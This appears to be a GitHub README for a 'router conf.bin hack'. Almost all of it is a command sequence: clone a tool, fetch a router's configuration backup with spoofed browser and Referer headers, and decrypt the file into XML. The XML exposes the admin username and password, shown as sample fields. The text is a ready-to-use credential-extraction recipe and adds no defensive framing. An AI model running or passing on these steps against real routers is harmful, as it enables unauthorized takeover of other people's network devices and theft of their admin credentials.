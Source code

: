 ```yaml
---
# Router conf.bin hack
---
```


``` apt update && apt upgrade ```

``` git clone https://github.com/princeicon2712/conf.rejaul.git ```

``` cd conf.rejaul ```

``` pip install pycryptodome ```
## Conf.bin file Downlod Now:

``` wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin ```
## conberd conf.bin from conf.xml:

``` python rejaul.py conf.bin conf.xml ```

## conf.xml see Example:

``` <AdminName val= admin /> ```
```<AdminPwd val= password /> ```

---
## developer profile by Rejaul Korim :
---
<img src="rejaul.jpg" width="500"/>
